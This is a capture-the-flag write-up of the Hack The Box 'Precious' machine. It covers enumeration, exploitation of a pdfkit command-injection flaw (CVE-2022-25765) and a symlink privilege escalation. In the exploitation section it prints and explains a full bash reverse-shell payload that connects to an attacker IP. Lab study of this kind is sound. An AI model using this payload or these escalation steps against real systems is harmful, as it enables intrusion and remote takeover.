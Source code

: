 ## **Hack The Box - Precious**

**Creator:** [Nauten](https://app.hackthebox.com/users/27582)

**Difficulty:** Easy

**Link:** [Precious](https://app.hackthebox.com/machines/513)

---

<ins> **Introduction** <ins>


![infocard](/docs/assets/images/HTB/precious/precious01.png)

*Precious* is an Easy level Linux system on Hack The Box. This machine had me exploit [CVE-2022-25765](https://www.cve.org/CVERecord?id=CVE-2022-25765). Which is a *Command Injection* vulnerability when the URL is not properly sanitized on systems running versions of *pdfkit* older than 0.8.7.2.
Once inside the system I was able to enumerate login credentials for a user with sudo privileges over a dependency update script. Running the script I was able to see that it called to a file that didn't exist on the system, so I created a symbolic link to the *root.txt* file named after the file called in the update script. 
Running the script again with sudo privileges caused it to output the contents of the *symbolic link*, which contained the flag I wanted.

---


<ins> **Enumeration** </ins>

I start every machine off with an *nmap service scan*.

`sudo nmap -sV -sC -O <target_ip>`

![nmap output](/docs/assets/images/HTB/precious/precious02.png)

I can see that port *22/tcp* is open to *ssh* traffic using *OpenSSH 8.4p1* and that port *80/tcp* is open to *http* traffic using *nginx 1.18.0*. I ran *searchsploit* on both but came up empty handed.

![searchsploit nginx](/docs/assets/images/HTB/precious/precious03.png)

![searchsploit openssh](/docs/assets/images/HTB/precious/precious04.png)

I also ran a *nikto* scan on the machine that didn't have very many results. There were a few notes about the header on the *nginx* but outside of that not much else.

`nikto -h <target_ip>`

![nikto](/docs/assets/images/HTB/precious/precious05.png)

---


<ins> **Web Enumeration** </ins>

When I first navigate to the web page I get an error that it doesn't exist. I noticed it convert the *url* to a *host_name*, so to view the web application I had to add the *ip_address* and the *host_name* associated with it to the */etc/hosts* file on my machine.

![/etc/hosts](/docs/assets/images/HTB/precious/precious06.png)

From there I can view a webpage that converts any *url* entered into a submission bar into a *pdf*. Seems kind of handy, except when I tested it only a blank pdf is loaded.

![webpage](/docs/assets/images/HTB/precious/precious07.png)

![blank pdf](/docs/assets/images/HTB/precious/precious08.png)

I went on to do a lot that didn't work, from running *gobuster* and loading the web application in *burp suite* to try to see if I could figure out what was going on. Eventually I got around to inspecting the page soucre of the *pdf* that is created and was able to find the service doing the conversion and it's version *pdfkit v0.8.6*.

![Inspect source](/docs/assets/images/HTB/precious/precious15.png)

![pdfkit version](/docs/assets/images/HTB/precious/precious16.png)

Searching for *pdfkit* vulnerabilities I was able to find [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

> In versions of pdfkit older than 0.87 the application could be vulnerable command injection where the URL is not properly sanitized.

![CVE](/docs/assets/images/HTB/precious/precious17.png)

---


<ins> **Exploitation**

So I just need to tack a reverse shell onto the end of the url that I have the webpage convert with *pdfkit* and catch it with a *listener* on my host system. 

`nc -l <host_ip> port`

![listener](/docs/assets/images/HTB/precious/precious19.png)

`http://10.129.79.142/?name=#{%20`bash -c "bash -i >& /dev/tcp/10.10.14.16/4242 0>&1"`} `

The reverse shell was found on [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

![reverse shell](/docs/assets/images/HTB/precious/precious18.png)

The payload starts with a url comprised of the ip address of the target system, `?name=` is a query parameter used to pass additional data to the server through the URL. The `#` is used to concatenate the payload. 
Everything following it gets wrapped in `{}` to indicate the text within them is a command, `%20` is a url encoded space character, then everything to follow is wrapped in `''`,  `bash -c` allows a string to be run as a command, `bash -i` starts and interactive session of bash and `>&` is used to redirect the *stdout* and *stderr* to a file descriptor.
`/dev/tcp/10.10.14.16/4242` is the file descriptor that allows the process to communicate with the *host_ip* on port 4242, then `0>&1` is used to redirect the stdin to the file descriptor.

The results is a shell with the same access rights as the process running the script on the target system, which in this case was *ruby*

![whoami](/docs/assets/images/HTB/precious/precious20.png)

Unfortunately User ruby doesn't have a lot of permissions or even access to read very many files. The home directory lists one other user *henry*, and inside of Henry's home directory is the *user.txt* file containing the user flag. *Ruby* can't read it though.

![henry](/docs/assets/images/HTB/precious/precious21.png)

![nouser.txt](/docs/assets/images/HTB/precious/precious22.png)

I looked around on the file system for anything *ruby* could do to possibly move me to another user and found nothing for a long time. Finally I decided to search for any other files related to user *henry* and found a file that had a *username:password* text format for *henry*.

![Henry Password](/docs/assets/images/HTB/precious/precious23.png)

---


<ins> **Privilege Escalation** </ins>

With Henry's password at hand I'm able to just *ssh* into the machine using the open service on port 22 and then cat the user.txt file once I'm in.

![ssh](/docs/assets/images/HTB/precious/precious24.png)

![User Flag](/docs/assets/images/HTB/precious/precious25.png)

The first thing I do when I get access to a new user on a linux machine is run `sudo -l` to see what they are allowed to do. In Henry's case they are able to run a script that will update the dependencies for *ruby* with root access without a password, so I ran it to see what all it did, which seems to be generate an error.

`sudo /usr/bin/ruby /opt/update_dependencies.rb'

![sudo -l](/docs/assets/images/HTB/precious/precious26.png)

![Dependency Error](/docs/assets/images/HTB/precious/precious27.png)

To me it looked like the script was trying to read the contents of the *dependencies.yml* file and perhaps from there it will try to write in any updates to it, except the file doesn't exist so an error gets generated.

I can create a *symbolic* link to the *root.txt* file and name it *dependencies.yml* and when I run the script using *sudo* the script should read the *root.txt* file with root privileges when it tries to call *dependencies.yml*.

```
ln -s /root/root.txt dependencies.yml 
sudo /usr/bin/ruby /opt/update_dependencies.rb 
```

![root flag](/docs/assets/images/HTB/precious/precious28.png)

![pwned](/docs/assets/images/HTB/precious/precious29.png)

---


<ins> **Final Thoughts** </ins>

This machine was definitely on the Easy side, I'm not sure that's a testament to my own skills improving so much as this one just kind of had everything laid out for me. I think it would actually be a good candidate for the "Beginner Track" if it's not already on one somewhere. 
This was my second time having a real use for symbolic links and my first time actually breaking down a reverse shell payload piece by piece to understand what exactly was going on.
I wasted a lot of time on this one just being unorganized and moving on to new tools before gathering all of the relevant information I had already found. In the future I will definitely be more organized in my approach to machines thanks to *Precious*.



